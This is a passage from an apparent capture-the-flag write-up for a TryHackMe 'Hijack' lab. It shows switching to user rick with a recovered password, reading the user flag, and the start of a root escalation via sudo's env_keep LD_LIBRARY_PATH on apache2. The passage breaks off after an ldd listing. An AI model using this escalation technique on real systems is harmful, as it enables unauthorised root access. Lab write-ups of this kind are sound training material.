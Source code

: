 ## Privilege Escalation, Persistence
### Valid Accounts: Local Accounts(T1078.003)
Next, I confirmed the validity of these credentials and the privilege escalation:
```bash
www-data@Hijack:/tmp$ su rick
su rick
Password: N3v3rG0nn4G1v3Y0uUp

rick@Hijack:/tmp$ 
```
To demonstrate the element of persistence I connected via SSH as the user rick as well.

After this I obtained the flag from `/home/rick/user.txt`:
```bash
rick@Hijack:~$ cat user.txt
cat user.txt
THM{REDACTED}
```

### Hijack Execution Flow: Dynamic Linker Hijacking(T1574.006), Hijack Execution Flow: Path Interception by PATH Environment Variable(T1574.007)
For privelege escalation to root, I began by running the following command to check for rick's sudo privileges:
```bash
rick@Hijack:~$ sudo -l
[sudo] password for rick: 
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

I researched `env_keep` and `LD_LIBRARY_PATH` and found the following resource: https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/

Following along with the process described, I first ran the following:
```bash
rick@Hijack:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007ffd9a3b9000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f0a3a511000)
        libaprutil-1.so.0 => /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0 (0x00007f0a3a2ea000)
        libapr-1.so.0 => /usr/lib/x86_64-linux-gnu/libapr-1.so.0 (0x00007f0a3a0b8000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f0a39e9b000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f0a39ad1000)
        libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007f0a39899000)
        libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1 (0x00007f0a39670000)
        libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007f0a3946b000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f0a39267000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0a3aa26000)
```
